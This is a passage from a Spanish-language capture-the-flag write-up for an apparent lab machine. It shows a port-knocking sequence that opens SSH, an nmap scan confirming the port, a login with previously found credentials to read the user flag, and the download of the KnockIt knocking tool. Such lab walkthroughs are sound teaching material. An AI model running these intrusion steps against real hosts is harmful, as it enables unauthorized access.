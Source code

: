 Podemos intentar varias secuencias, siendo la siguiente la que abre el **puerto 22**:
```bash
knock 192.168.100.90 8745 9467 1739
```

Compruébalo con **nmap**:
```bash
nmap -p 22 -sCV 192.168.100.90
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 18:16 CST
Nmap scan report for budasec.thl (192.168.100.90)
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5e:7a:33:3e:a4:41:3c:4b:4e:cc:9e:3c:ce:6e:86:b2 (ECDSA)
|_  256 8e:56:95:61:f5:77:4e:17:37:29:35:0f:a7:33:98:1a (ED25519)
MAC Address: XX (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.47 seconds
```

Comprobemos si sirven las credenciales que encontramos en este servicio:
```bash
ssh yolanda@192.168.100.90
yolanda@192.168.100.90's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...
Last login: Fri Jun  7 16:00:19 2024
-bash-5.1$ whoami
yolanda
```
Estamos dentro.

Aquí encontraremos la flag del usuario:
```bash
-bash-5.1$ ls
user.txt
-bash-5.1$ cat user.txt
...
```

<br>

<h3 id="KnockIt">Aplicando Port Knocking con Herramienta KnockIt</h3>

Aquí puedes encontrar el repositorio de la herramienta:
* <a href="https://github.com/eliemoutran/KnockIt" target="_blank">Repositorio de eliemoutran: KnockIt</a>

Descarguemos la herramienta con **wget**:
```bash
wget https://raw.githubusercontent.com/eliemoutran/KnockIt/refs/heads/master/knockit.py
```

